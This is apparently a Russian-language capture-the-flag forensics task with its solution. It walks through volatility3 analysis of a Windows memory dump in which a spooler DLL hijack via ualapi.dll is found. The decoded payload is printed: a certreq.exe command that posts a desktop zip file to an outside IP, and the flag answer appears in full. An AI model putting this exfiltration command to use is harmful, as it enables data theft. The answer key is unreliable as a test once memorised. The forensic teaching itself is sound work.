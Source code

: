 # Forensic | Hard | French Connection

## Информация
Мы наконец достали ПК того бедолаги, через который произошла утечка в прошлом месяце. Но особенно это ничего не поменяло, мы до сих пор не можем собрать все воедино (в плане, мы до сих пор не знаем, что именно утекло). Можешь глянуть и понять, что эти парни у нас украли? Правда мы уже все потерли и отдали комп обратно, есть только дамп памяти.

URLS:
[MEGA](https://mega.nz/file/1k00yLjZ#_dDJrBjQKUUVJjXoNYlxrTWjW4QDkk2hPCLJKHZBl_w)

[Google Drive](https://drive.google.com/file/d/1uQeHiBb6iqYzVYWZWn97Gk73oyWq8-eg/view)
По частям, собирать: cat dump/x* | gunzip -c > 80808

[Yandex Disk](https://disk.yandex.ru/d/_Ea3K-lyhvIzPA)

(Флаг - название файла без расширения. Пример: flag_here.zip -> CUP{flag_here})
MD5 80808.gz: bf241bac7afc054cbbd589c0d97bb7d3
MD5 80808:    1ad79326b2e2161301b45eaa2de3fb12

[Torrent Magnet](magnet:?xt=urn:btih:a8e44518427be0836cb36e99da9dce5df3c3a237&dn=80808.gz&tr=http%3a%2f%2ftracker.openbittorrent.com%3a80%2fannounce)

## Деплой
-

## Выдать участникам
public/80808.gz.torrent

## Описание
Таск на разбор дампа памяти win8.1, где через процесс спулера был проведен dll-hijacking. Задача: найти вредоносный dll, извлечь из него название сгружаемого файла.

## Решение
Решение при помощи volatility3:

1. Исследуем дамп:
	* Получаем дерево процессов: 	python3 vol.py -f 80808 windows.pstree
		!шедулер запускает powershell
		!из под сервиса спулера запущен rundll32

	* Получаем команды:				python3 vol.py -f 80808 windows.cmdline
		!powershell перезапускает сервис спулера

	* Получаем коннекты:			python3 vol.py -f 80808 windows.netscan
		!SYN_SENT на адрес 192.80.11.30:3390

	* Делаем малфайнд:			python3 vol.py -f 80808 windows.malfind
		!rundll32

2. Проверяем dll spoolsv:			python3 vol.py -f 80808 windows.dlllist --pid 1992

3. Получаем образы dll из памяти:	python3 vol.py -f 80808 windows.filescan
									python3 vol.py -f 80808 windows.dumpfiles --physaddr <адреса dll>

4. Понять, какой из dll вредоносный:
	* Оценить соразмерность с оригиналом
	* Посмотреть содержимое вручную
	* Найти адрес (0d3e c0500b1e) grepом по образам
		!ualapi.dll вредоносный

5. Найти в ualapi.dll второй пейлоад в base64, раздекодить:
		!certreq.exe -post -config https://192.80.11.30:80/ c:/users/admin/desktop/utils/c51129468a59c5acba0f0ef6f3b463a0c6ee2e81c6fc9511438fb4930dd0fd.zip

## Флаг

`CUP{c51129468a59c5acba0f0ef6f3b463a0c6ee2e81c6fc9511438fb4930dd0fd}`


